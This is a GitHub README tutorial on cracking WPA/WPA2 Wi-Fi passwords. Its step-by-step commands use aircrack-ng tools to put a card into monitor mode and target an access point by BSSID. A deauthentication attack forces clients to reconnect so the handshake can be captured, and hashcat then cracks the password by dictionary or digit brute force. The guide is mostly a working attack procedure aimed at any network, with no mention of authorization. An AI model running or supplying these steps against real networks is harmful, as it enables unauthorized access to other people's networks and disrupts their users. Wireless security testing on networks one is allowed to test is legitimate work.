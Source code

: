 ## Crack WIFI Password (WPA/WPA2) using Aircrack-ng

Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- **GPU** for `hashcat`

### Lets capture the flag (I mean \*Handshake):

Open terminal.....

#### Terminal-1:

1. Detect your wireless network interface :

   > ifconfig

   ![Network interface](images/interfaces.png)

   **Note:** Here <i>wlp3s0</i> is my wireless interface.

   **if coudn't find command then try :**

   > /sbin/ifconfig

2. Start monitor mode :

   > sudo airmon-ng start wlp3s0

   ![Monitor mode](images/monitor_mode.png)

3. capture traffic :

   > sudo airodump-ng wlp3s0mon

   ![Monitoring](images/monitoring.png)

#### Terminal-2:

4. select target and focus on one AP on channel:

   > sudo airodump-ng --bssid xx.xx.xx.xx.xx.xx -c y --write filename wlp3s0mon

   - **xx.xx.xx.xx.xx.xx** defines : **AP BSSID** -> 00.11.22.33.44.55 (suppose)
   - **y** defines : **AP channel** -> 10 (suppose)
   - **filename** is the file name where the **handshake** will captute and make some other stuffs .

   ![Target Monitoring](images/target.png)

#### Terminal-3:

5. Send traffic to the channel :

   > sudo aireplay-ng --deauth y -a xx.xx.xx.xx.xx.xx wlp3s0mon

   - ammoun of **traffic**-> y

   ![Deauth](images/deauth.png)

6. Capture handshake : it will be shown in the monitor if captured ! at **Terminal-2**.

   ![Captured handshake](images/handshake_captured.png)

7. Now you got the handshake **(terminal-2)**
8. Stop the process of terminal-2 : `ctrl+c`

### Now Lets crack the password !

**There will be a WPAcrack-01.cap file in your home directory**

1. convert cap file into hccapx file : https://www.onlinehashcrack.com/tools-cap-to-hccapx-converter.php

or

1.  use **cap2hccapx.c** file to convert the **cap** file to **hccapx** file

    > gcc cap2hccapx.c -o cap2hccapx && ./cap2hccapx file.cap file.hccapx

    ![cap to hcappx](images/capToHccapx.png)

    **Note :** cap to pkid (in case of pkid) :

    > hcxpcaptool -z pmkidhash suva-01.cap

1.  Crack password using **hashcat** :

    - **Install hashcat :** `sudo apt install hashcat`
    - check is everything oky ? : `hashcat -I` **to use hashcat you need gpu**
    - crack password :

      > hashcat -m 2500 wpacrack.hccapx dictionary.txt

      - dictionary.txt -> word list (suppose)
      - wpacrack.hccapx is the handshake file

      ![Hashcat running](images/hashcat.png)

      ![Hashcat Status](images/hashcat_status.png)

- Bruteforce :
  Example (bruteforce for length 8 password using 0-9 digits) :

  > hashcat -a 3 -m 16800 pmkidhash ?d?d?d?d?d?d?d?d

  Then you will get the password (if you are lucky enough).
  ![password](images/pass.png)
  here password : secret

- Others :
  All ready cracked pass check :

  > hashcat -m 2500 test.hccapx rockyou.txt --show
